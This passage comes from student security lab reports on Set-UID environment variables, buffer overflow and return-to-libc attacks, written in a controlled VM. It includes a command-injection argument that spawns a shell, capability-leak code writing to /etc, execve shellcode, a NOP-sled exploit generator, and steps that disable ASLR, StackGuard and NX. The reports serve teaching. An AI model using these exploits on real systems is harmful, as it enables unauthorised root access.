	\item Running \textit{myprog} as a regular program and executing as a normal user, the string ``I am not sleeping!'' is displayed, which is expected as the sleep function in our user-defined library is used due to reading of the \texttt{LD\_PRELOAD} environment variable.
	\item Running \textit{myprog} as a \texttt{Set-UID} program and running it with a normal user will result in the program going to sleep for 5 seconds. (To observe the results clearly, \texttt{sleep(1)} was amended to \texttt{sleep(5)} instead.)
	\item Running \textit{myprog} as a \texttt{Set-UID} program and exporting the \texttt{LD\_PRELOAD} environment variable under the root account results in the string being displayed. Due to the security loophole of \texttt{LD\_PRELOAD}, the user-defined library is only loaded if the environment variable was exported with root and the program run with root.
	\item Setting \textit{myprog} as a user1 \texttt{Set-UID} program with \texttt{LD\_PRELOAD} environment variable set under user2 and executing it results in the program going to sleep for 5 seconds.
\end{enumerate}
We analyse the results obtained from the four different conditions and notice that the \texttt{LD\_PRELOAD} is ignored if the owner and the user executing the program is different, then there will be no execution of the user-defined library.
\subsection{Invoking External Programs using \texttt{system()} Versus \texttt{execve()}}
This section looks at using \texttt{system()} and \texttt{execve()} at executing external programs that are not intended. The \texttt{C} code that will be used limits the user to using the \texttt{cat} function. Due to this, the owner assumes that the user will cannot execute any write function on the system and will not be able to edit any file. The \texttt{C} code for this has been attached in the \hyperref[Appsec:3.8]{Appendix}.\\\\
The code is compiled as a \texttt{Set-UID} program with the name \textit{audit} and root as the owner. In particular, we note that the ``\texttt{;}'' operator can be used to initiate the next command. As such, running the program using the following code will allows us to obtain a shell.
\begin{verbatim}
$ audit "sometext.txt;/bin/sh"
\end{verbatim}
In this instance, a dummy file with the file name and extension \texttt{sometext.txt} will just act as the argument needed to execute the \texttt{cat} function before the shell can be obtained. After the shell has been obtained, system operations such as \text{rm -rf} can be performed even without being given root privileges.
\begin{figure}[h]
	\centering
	\includegraphics[width=0.9\linewidth]{systemexploit}
	\caption{Shell obtained using \texttt{system()}}
	\label{fig:systemexploit}
\end{figure}\\
When we use \texttt{execve()} instead and compile again, we note that a shell cannot be obtained this time. This is due to \texttt{execve} interpreting the entire string as an argument and hence will not be able to find the file.
\begin{figure}[h]
	\centering
	\includegraphics[width=0.9\linewidth]{execveuse}
	\caption{Cannot obtain Shell using \texttt{execve()}}
	\label{fig:execveuse}
\end{figure}

\subsection{Capability Leaking (Exploit)}
In this section, we take a look at capability leaking, where privileges are downgraded after execution but may still be accessible by non-privileged processes. Using \texttt{setuid()} sets the effective user ID of the calling process and removes root privileges if the user executing the program is not root.\\\\In the \texttt{C} code provided for \hyperref[Appsec:3.9]{this section}, a vulnerability can be found in the program where root access is revoked but the file that was previously opened under root privileges is still able to have its file edited. 
\begin{figure}[h]
	\centering
	\includegraphics[width=0.9\linewidth]{capleak}
	\caption{Capability Leaking}
	\label{fig:capleak}
\end{figure}
\\In Figure 13, it can be seen that the file was successfully written as the handle that opens the file still retains root privileges and as a result is successful in writing the contents into the file even after \texttt{setuid(getuid())} has been executed.

\newpage
\addcontentsline{toc}{section}{Appendix}
\section{Appendix}
\subsection{Process Inheritance \texttt{C} Code}
\label{Appsec:3.2}

\begin{minted}{C}
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

extern char **environ;
void printenv()
{
    int i=0;
    while (environ[i] !=NULL)
    {
        printf("%s\n", environ[i]);
        i++;
    }
}

void main()
{
    pid_t childPid;
    switch(childPid=fork())
    {
        case 0:
        printenv(); /*Child process*/
        exit(0);
        default:
        //printenv(); /*Parent process*/
        exit(0);
    }
}
\end{minted}
\newpage

\subsection{Execution of \texttt{execve()}}
\label{Appsec:3.3}
\begin{minted}{C}
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

int main()
{
    char *argv[2];

    argv[0] = "/usr/bin/env";
    argv[1] = NULL;

    execve("/usr/bin/env", argv, NULL);

    return 0;
}
\end{minted}
\subsection{Execution of \texttt{system()}}
\label{Appsec:3.4}
\begin{minted}{C}
#include <stdio.h>
#include <stdlib.h>

int main()
{
    system("/usr/bin/env");

    return 0;
}
\end{minted}
\subsection{Envrionment Variables \& \texttt{Set-UID} Programs}
\label{Appsec:3.5}
\begin{minted}{C}
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

void main()
{
    int i=0;
    while (environ[i] != NULL) {
        printf("%s\n", environ[i]);
        i++;
    }
}
\end{minted}
\subsection{\texttt{PATH} Environment Variable \& \texttt{Set-UID}}
\label{Appsec:3.6}
\begin{minted}{C}
int main()
{
    system("ls");
    return 0;
}
\end{minted}
\subsection{Call Shell}
\label{Appsec:3.6.2}
\begin{minted}{C}
int main()
{
    system("sh");
    return 0;
}
\end{minted}
\subsection{\texttt{sleep()} Library}
\label{Appsec:3.7}
\begin{minted}{C}
#include <stdio.h>

void sleep (int s)
{
    printf("I am not sleeping!\n");
}
\end{minted}
\subsection{Execute \texttt{sleep()} Function}
\begin{minted}{C}
int main()
{
    sleep(1);
    return 0;
}
\end{minted}
\newpage
\subsection{Invoking External Programs using \texttt{system()} Versus \texttt{execve()}}
\label{Appsec:3.8}
\begin{minted}{C}
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
    char *v[3];
    char *command;

    if (argc < 2) {
        printf("Please type a file name.\n");
        return 1;
    }

    v[0]="/bin/cat";
    v[1]=argv[1];
    v[2]=NULL;

    command = malloc(strlen(v[0]) + strlen(v[1]) + 2);

    sprintf(command, "%s %s", v[0], v[1]);

    system(command);
    //execve(v[0], v, NULL);

    return 0;
}
\end{minted}
\newpage
\subsection{Capability Leaking}
\label{Appsec:3.9}
\begin{minted}{C}
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

void main()
{
    int fd;
    fd = open("/etc/zzz", O_RDWR | O_APPEND);
    if (fd==-1) {
        printf("Cannot open /etc/zzz\n");
        exit(0);
    }

    sleep(1);

    setuid(getuid());

    if (fork()){
        close (fd);
        exit(0);
    } else {
        write(fd, "Malicious Data\n", 15);
        close (fd);
    }
}
\end{minted}











%%%%%%%%%%%%%%%%%%%%PDF 2 - PDF 3 Amended Order%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{titlepage}
	\begin{center}
		\vspace*{27em}
		\Huge
		\textbf{Buffer Overflow Attack\\}		
		
		\vfill
	\end{center}
\end{titlepage}

\pagenumbering{roman}
\newpage
\pagenumbering{arabic}
\setcounter{section}{0}
\section{Introduction}
Buffer overflow is an occurrence where the write operation has exceeded the allocated size of the buffer region and overwritten the data in adjacent regions. Buffer overflows paired with shellcode execution can result in privilege escalation (root access) as will be shown in the attack in the following pages.
\section{Overview}
Prior to commencing the attack, we must first understand the memory allocation performed by the operating system. Data and functions to be executed are stored using a stack. In the current scenario, we want our shellcode (malicious code) to be executed. To execute our shellcode, we must overwrite the return address to point to either our \begin{enumerate}
	\item Block of NOP \texttt{(0x90)} code; or
	\item The address of the starting point of our shellcode.
\end{enumerate} Due to the difficulty in obtaining the absolute address of the starting point of the shellcode, we make use of the block of NOP code to skip to the next instruction until the shellcode is eventually executed. The graphical representation of the components of a stack are shown in Figure 1 for easier reference.
\iffalse
\begin{figure}[!h]
	\centering
	
\begin{tikzpicture}
	\draw (-2,3) -- (-2,3.8);
	\draw (2,3) -- (2,3.8);
	\draw[fill=gray!40]  (-2,3)  rectangle node {Stack} (2,2.2);
	\draw (-2,2.2) rectangle (2,1.2);
	\draw[fill=gray!40]  (-2,1.2) rectangle node {Heap}(2,0.4);
	\draw (-2,0.4) rectangle node {BSS Segment} (2,-0.2);
	\draw (-2,-0.2) rectangle node {Data Segment} (2,-0.8);
	\draw (-2,-0.8) rectangle node {Text Segment} (2,-1.4);
	\draw(3.8,3) node[text width=3cm,align=left] {High Address} (3.8,-1.4) node[text width=3cm,align=left] {Low Address};
	\draw (-2,-1.4) -- (-2,-2.2);
	\draw (2,-1.4) -- (2,-2.2);
	\end{tikzpicture}
	\caption{Program Layout}
\end{figure}
\fi
\begin{figure}[!h]
	\centering
	
\begin{tikzpicture}
	\draw[fill=yellow!30]  (-2,3)  rectangle node {Malicious Code} (4,1.5);
	\draw[fill=gray!40]  (-2,1.5) rectangle node {NOP (\texttt{0x90})}(4,0.8);
	\draw[fill=gray!40] (-2,0.8) rectangle node {NOP (\texttt{0x90})} (4,0.1);
	\draw[fill=gray!40] (-2,0.1) rectangle node {NOP (\texttt{0x90})} (4,-0.6);
	\draw[fill=gray!40] (-2,-0.6) rectangle node {\Large{$\rvdots$}} (4,-1.7);
	\draw[fill=gray!40]  (-2,-1.7) rectangle node {NOP (\texttt{0x90})} (4,-2.4);
	\draw[fill=gray!40] (-2,-2.4) rectangle node{NOP (\texttt{0x90})}(4,-3.1);
	\draw[fill=blue!10] (-2,-3.1) rectangle node {Return Address}(4,-3.8);
	\draw[fill=gray!40] (-2,-3.8) rectangle node {NOP (\texttt{0x90})}(4,-4.5);
	\draw[fill=gray!40] (-2,-4.5) rectangle node {\Large{$\rvdots$}} (4,-5.6);
	\draw[fill=gray!40] (-2,-5.6) rectangle node {NOP (\texttt{0x90})}(4,-6.3);
	\draw(6.5,3) node[text width=3cm,align=left] {High Address}  (6.5,-1.65) node[text width=3cm,align=left] {Stack's growing\\ direction}  (6.5,-6.3) node[text width=3cm,align=left] {Low Address};
	\draw[->,line width=0.5mm](4.6,3) -- (4.6,-6.3);
	\end{tikzpicture}
	\caption{Layout of (Vulnerable) Stack}
\end{figure}
\newpage\section{Vulnerability Exploit}
\subsection{VM Preparation}
\vspace{1em}
\begin{enumerate}
	\item \textbf{Address Space Layout Randomization (ASLR)} \begin{par}ASLR is a protection feature that randomizes the starting address location of the heap and stack. This ensures that the execution address is not deterministic and easily exploited by the hacker. For this lab, we switch this protection off to easily simulate an attack. The following code disables the feature:
		\begin{verbatim}
		$ su
		# sysctl -w kernel.randomize_va_space=0
		\end{verbatim}
	\end{par}
	\item \textbf{StackGuard Protection}\begin{par}The GCC compiler includes a protection mechanism called \textit{StackGuard} to detect and prevent buffer overflows. This mechanism checks if the information on the stack such as the return address have been overwritten and prevent the execution of instructions thereafter. This protection is temporarily disabled by declaring the following switch \texttt{-fno-stack-protector} when compiling with GCC.\begin{verbatim}
		$ gcc -fno-stack-protector someprog.c\end{verbatim}
	\end{par}
	\item \textbf{Non-Executable Stack}\begin{par}Newer operating systems have support for \textit{No-eXecute}, or \textit{NX} for short. Regions that are marked are non-executable will not be processed by the processor. This is a feature that is built into modern CPUs and toggled in the motherboard settings, known as \textit{eXecute Disable (XD)} on Intel or \textit{Enhanced Virus Protection} on AMD systems. The default setting for the stack in our VM is  \textbf{non-executable}. Attempting to overwrite the stack will throw an exception to the user. \\\\In this lab, we explicitly set the stack to be executable using the following code when compiling with GCC:
		\begin{verbatim}
		$ gcc -z execstack -o someprog someprog.c
		\end{verbatim}
	\end{par}
	\newpage
	\item \textbf{(Test) Shellcode} \begin{par}
		Before we attempt the lab, we use the (given) shellcode to test whether we are able to obtain a shell\footnote{The provided shellcode.c from the website is missing the
			\#include $<$string.h$>$ line.}.\end{par}
	\begin{minted}{C}
/* call_shellcode.c  */
	
/*A program that creates a file containing code for launching 
shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
	
const char code[] =
"\x31\xc0"             /* xorl    %eax,%eax              */
"\x50"                 /* pushl   %eax                   */
"\x68""//sh"           /* pushl   $0x68732f2f            */
"\x68""/bin"           /* pushl   $0x6e69622f            */
"\x89\xe3"             /* movl    %esp,%ebx              */
"\x50"                 /* pushl   %eax                   */
"\x53"                 /* pushl   %ebx                   */
"\x89\xe1"             /* movl    %esp,%ecx              */
"\x99"                 /* cdq                            */
"\xb0\x0b"             /* movb    $0x0b,%al              */
"\xcd\x80"             /* int     $0x80                  */
;
	
int main(int argc, char **argv)
{
	char buf[sizeof(code)];
	strcpy(buf, code);
	((void(*)( ))buf)( );
} 
	\end{minted}
	We compile the code with the \texttt{execstack} switch on. \begin{verbatim}
	$ gcc -z execstack -o call_shellcode call_shellcode.c\end{verbatim}
	\newpage
	\item \textbf{Vulnerable Program} \begin{par}We prepare the program with the stack buffer overflow vulnerability and compile in root mode. We turn off  the non-executable stack and StackGuard protections.\begin{verbatim}
		$ su
		# gcc -o stack -z execstack -fno-stack-protector stack.c -g
		# chmod 4755 stack
		# exit
		\end{verbatim} 
		We take note of the following two pointers in the code above. Firstly, we use the \texttt{-g} switch to add debugging information for easier reference to the memory addresses later (Not used in the lab reference sheet). Secondly, 4755 sets the execution of the program to use root privileges (u+s) as we want root to be the owner of the file.\end{par}
\end{enumerate}
\newpage
\subsection{Exploiting Vulnerability}
We first compile the exploit.c and run the \texttt{./stack} executable as is to obtain the memory address of the buffer. As the address of the stack (and the buffer) does not change, then recompiling the program using the same steps (and compiler) yields the same results. We can analyse the buffer contents using the \texttt{gdb} debugger tool. We set the breakpoint at the function \texttt{bof} where the copying of the buffer occurs.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{BufferAnalysis}
	\caption{Buffer Address Debugging}
	\label{fig:bufferanalysis}
\end{figure}
\noindent We mention that the string has a hex value of \texttt{0xbffff177}, which corresponds to the address \texttt{0xbffff160} or third item in the third line of the buffer. Using figure 1 as a guide, we know that the content of that address is a pointer to the string. Therefore, the hex value \texttt{0x080484ff} is the return value that we need to overwrite.
In our exploit.c code, we can add the following code:
\begin{minted}{C}
//Overwrite the first 24 bytes (char) of buffer with random values
int i;
long *fill = (long *) buffer;
for(i=0;i<9;i++,fill++) *fill = 0x90909090;

//Return Address Overwrite
*fill = 0xbffff138+64+24;
//24 (bytes) is the length of the shellcode

//Copy shellcode for vulnerability execution
strcpy(buffer+64,shellcode);
\end{minted}
The return address, denoted as \texttt{0xbffff138+64+24} must be bigger or equals to the hex address of where the shellcode is located. If the address is bigger, then the NOP will help to skip addresses until the shellcode is executed. It is worth noting that a bigger number is suitable as it is not known how much random data the compiler may store in the stack.\\\\Compiling exploit.c and executing the program allows us to obtain the shell. Upon further analysis using the commands \texttt{whoami} and \texttt{id}, we see that we currently have root privileges as our \texttt{euid} (effective userid) is 0.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{ExploitExec}
	\caption{Privilege Escalation}
	\label{fig:exploitexec}
\end{figure}
\noindent If we go further, we can effectively set our userid to root instead of our current userid, seed. We compile the following C file with the following code inside.\begin{verbatim}
void main()
{
    setuid(0);
    system("\bin\sh");
}
\end{verbatim}
Compiling the program on a separate Terminal window,
\begin{verbatim}
$ gcc -o privup privup.c
\end{verbatim}
we can go back to the Terminal window where we currently have our shell and execute the C code that has just been compiled. We check again using \texttt{whoami} and \texttt{id} and we now notice that our userid has been changed to root.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{PrivUp}
	\caption{Full Root Privileges}
	\label{fig:privup}
\end{figure}
\noindent This change will allow us to run programs that require the userid to strictly be root only.
\subsection{Address Randomisation}
In this part of the lab, we apply address randomisation by now setting the flag \texttt{kernel.randomize\_va\_space=2} in \texttt{su} mode. Due to the address of the stack and the buffer being randomised, executing the program will take awhile, however the VM has been assigned with 512MB and the probability of obtaining a shell will thus be $\frac{1}{2^{29}}$. We can run the following code \texttt{sh -c "while [ 1 ]; do ./stack; done;"} until we obtain the shell prompt. Eventually we will either hit the address where the shellcode is located or the NOP block where it will skip addresses until the shellcode is executed.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{AddrRandom}
	\caption{With Address Randomisation}
	\label{fig:addrrandom}
\end{figure}
\noindent In the figure above, we receive the prompt ``Segmentation fault (core dumped)'' multiple times during the while loop, this indicates that the exploit was trying to access memory that the user has no access to, resulting in an error being thrown to the screen.
\subsection{StackGuard}
To view the different protections that GCC compiler offers for buffer overflow, we turn on StackGuard by compiling without the \texttt{-fno-stack-protector} switch.\begin{verbatim}
# gcc -o stack -z execstack stack.c
\end{verbatim}
When we execute \texttt{./stack} this time, we get the error ``Stack smashing detected'' and the program terminates immediately. Using \texttt{gdb} to debug, we notice that with every execution of the program, the hex value at \texttt{0xbffff13c} changes. This protection is used to detect a buffer overflow before execution of any code thereafter. As this canary value is located in a lower memory address than the return address, then attempting to  overwrite the return address will also result in the canary value being overwritten and triggering an error to the user.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{StackGuard}
	\caption{Buffer Protection at \texttt{0xbffff13c}}
	\label{fig:stackguard}
\end{figure}
\subsection{Non-executable Stack}
In this instance, we make our stack non-executable by declaring the option \texttt{noexecstack} option.
\begin{verbatim}
# gcc -o stack -fno-stack-protector -z noexecstack stack.c
\end{verbatim}
Using \texttt{gdb} to analyse the buffer again, we notice that the result from our debugging is the same as figure 2, with all the data being successfully copied over. When continuing to step into the function, we are thrown the error ``Segmentation fault (core dumped)''. This is due to the illegal access of memory that has been marked as non-executable. It implies that the region of the memory that is marked as non-executable will not be executed by the processor and hence the error will be thrown to the user. It is important to know that the shellcode is outside the address allocated to the buffer (24 bytes).
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{NXFault}
	\caption{Non-Executable Fault}
	\label{fig:nxfault}
\end{figure}
\newpage
\section{Appendix}
\subsection{Buffer Overflow Exploitation: \texttt{stack.c}}
\begin{minted}{C}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof (char *str)
{
    char buffer[24];
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile","r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
\end{minted}
\newpage
\subsection{Buffer Write Operation: \texttt{exploit.c}}
\begin{minted}{C}
/* Creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
"\x31\xc0"             /* xorl    %eax,%eax              */
"\x50"                 /* pushl   %eax                   */
"\x68""//sh"           /* pushl   $0x68732f2f            */
"\x68""/bin"           /* pushl   $0x6e69622f            */
"\x89\xe3"             /* movl    %esp,%ebx              */
"\x50"                 /* pushl   %eax                   */
"\x53"                 /* pushl   %ebx                   */
"\x89\xe1"             /* movl    %esp,%ecx              */
"\x99"                 /* cdq                            */
"\xb0\x0b"             /* movb    $0x0b,%al              */
"\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];

    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    //Fill up the buffer
    long *fill = (long *) buffer;
    int i;
    for(i=0;i<9;i++,fill++) *fill=0x90909090;
    *fill=0xbffff170;
    strcpy(buffer+64,shellcode);

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
\end{minted}
%%%%%%%%%%%%%%%%%%%%%%% PDF 3 %%%%%%%%%%%%%%%%%%%%%%%%
\begin{titlepage}
	\begin{center}
		\vspace*{27em}
		\Huge
		
		\textbf{Return to LibC Attack\\}		
		
		\vfill
	\end{center}
\end{titlepage}

\pagenumbering{roman}
\newpage
\pagenumbering{arabic}
\setcounter{section}{0}
\section{Introduction}
Return to libc is a type of buffer overflow attack that circumvents an existing protective measure of having a non-executable stack. This attack also does not require the use of the shellcode, instead it makes use of functions already included in standard libraries to exploit the system and obtain root access. This reduces the effort by removing the need of preparing a shellcode but is more difficult to execute due to the additional attention required when working with multiple restrictions.
\section{Overview}
The execution of a return to libc attack is complex and the structure of the stack must be first understood before performing the attack. In general, the first function that is called or executed will be located on the top of the stack. Additional functions that are called will be pushed into the stack. The stack can grow as required depending on the number of functions that are called and whether there is contiguous memory available.
\begin{figure}[!h]
	\centering
	
\begin{tikzpicture}
	\draw[fill=green!30]  (-2,3)  rectangle node {main()} (2,2);
	\draw[fill=blue!20]  (-2,2) rectangle node {sub1()}(2,1);
	\draw[fill=blue!20]  (-2,1) rectangle node {sub2()}(2,0);
	\draw[fill=blue!20]  (-2,0) rectangle node {\LARGE{$\rvdots$}}(2,-1.5);
	\draw[fill=blue!20]  (-2,-1.5) rectangle node {subn()}(2,-2.5);
	\draw(4.2,3) node[text width=3cm,align=left] {High Address}  (4.2,0.25) node[text width=3cm,align=left] {Stack's growing\\ direction}  (4.2,-2.5) node[text width=3cm,align=left] {Low Address};
	\draw[->,line width=0.5mm](2.4,3) -- (2.4,-2.5);
	\end{tikzpicture}
	\caption{Location of main and sub-functions on Stack}
\end{figure}
\\When a function is called, the \texttt{call} instruction in assembly executes a \texttt{push} to store the current \texttt{EIP} value into the stack and functions as the return address for the sub-function. The second part of the \texttt{call} instruction is to to jump to the address containing the instructions for the sub-function. The first two lines of any function will consist of a \texttt{push} instruction, to contain the previous value of \texttt{EBP} and to move the \texttt{EBP} to the location of \texttt{ESP}. Figure 2 is a graphical representation of the stack and the pointer locations after the pointers have been assigned.
\begin{figure}[H]
	\centering
	
\begin{tikzpicture}
	\draw[fill=green!30]  (-2,4)  rectangle node {Data for main()} (3.6,2.1);
	\draw[fill=blue!20]  (-2,2.1) rectangle node[text width=6cm,align=center] {\small Arguments for sub(), \\ pushed by main()}(3.6,1);
	\draw[fill=blue!20]  (-2,1) rectangle node {Return Address}(3.6,0.3);
	\draw[fill=blue!20]  (-2,0.3) rectangle node {Old EBP}(3.6,-0.4);
	\draw[fill=blue!20]  (-2,-0.4) rectangle node {Data for sub()}(3.6,-2.3);
	\draw[<-,line width=0.3mm](3.65,-0.4) -- (4.4,-0.4) node[black,midway,xshift=1cm] {EBP};
	\draw[<-,line width=0.3mm](3.65,-2.3) -- (4.4,-2.3) node[black,midway,xshift=1cm] {ESP};
	\draw(8,4) node[text width=3cm,align=left] {High Address}  (8,0.85) node[text width=3cm,align=left] {Stack's growing\\ direction}  (8,-2.3) node[text width=3cm,align=left] {Low Address};
	\draw[->,line width=0.5mm](6.2,4) -- (6.2,-2.3);
	\draw [decorate,decoration={brace,amplitude=6pt},xshift=-4pt,yshift=0pt]
	(-2.1,2.1) -- (-2.1,4) node [black,midway,xshift=-1cm] 
	{\footnotesize main()};
	\draw [decorate,decoration={brace,amplitude=6pt,raise=4pt},yshift=0pt]
	(-2.1,-2.3) -- (-2.1,2.1) node [black,midway,xshift=-1cm] {\footnotesize
		sub()};
	\draw (-2.25,2.1) -- (-2,2.1);
	\end{tikzpicture}
	\caption{Stack Component \& Pointer Locations}
\end{figure}
\noindent The attack is similar to executing a buffer overflow, where the return address is overwritten. In this case, we set the return address to the address of the \texttt{system} function in the \texttt{libc} library. The idea is to execute \texttt{/bin/sh} and obtain a root shell as the program is a \texttt{Set-UID} program. \\\\When the return address (call to \texttt{system}) is executed, the stack is popped to remove the return address and pushed to contain the current position of \texttt{EBP} before the pointer is reassigned to the location of \texttt{ESP}. Allocation of required data required for the sub-function will occur thereafter. At this stage, the interpretation of the stack needs to be redefined for clarity. Figure 3 summarises the steps that have occurred after jumping to the \texttt{system} function and storing of the old \texttt{EBP} has been executed.
\begin{figure}[H]
	\centering
